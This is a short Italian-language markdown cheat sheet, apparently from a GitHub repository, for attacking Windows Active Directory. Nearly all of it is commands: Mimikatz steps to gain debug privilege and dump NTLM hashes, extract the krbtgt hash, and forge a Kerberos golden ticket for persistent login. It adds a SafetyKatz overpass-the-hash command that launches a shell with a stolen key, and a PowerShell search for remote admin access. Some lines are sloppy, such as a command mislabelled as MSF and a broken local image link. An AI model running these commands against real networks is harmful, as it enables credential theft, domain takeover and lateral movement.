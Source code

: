### **ASSICURATI CHE STIA RUNNANDO COME PRIVILEGED**
```powershell
privilege::debug
```
### **DUMPA LE NTLM HASH**
```powershell
lsadump::lsa /patch
```
![file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png](file://C:/Users/STRAOL~1/AppData/Local/Temp/.HAXM41/2.png)
### **GOLDEN TICKET**
Crei un ticket per poter loggare quando vuoi
```MSF
golden_ticket_create //MSF
```
```MSF
lsadump::lsa /inject /name:krbtgt
```
per creare il golden ticket
```MSF
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

### **OVERPASS THE HASH**
*Using SafetyKatz*
```powershell
.\SafetyKatz.exe "sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<HASH> /run:cmd.exe" "exit"
```
Run invishell and look for other system access
```powershell
Find-PSRemotingLocalAdminAccess -Verbose
```
